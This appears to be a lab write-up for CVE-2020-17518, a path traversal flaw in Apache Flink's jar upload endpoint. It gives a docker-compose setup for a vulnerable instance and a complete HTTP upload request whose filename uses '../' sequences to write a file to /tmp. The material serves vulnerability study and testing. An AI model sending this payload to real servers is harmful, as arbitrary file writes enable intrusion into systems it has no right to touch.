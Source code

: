# Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

![](1.png)
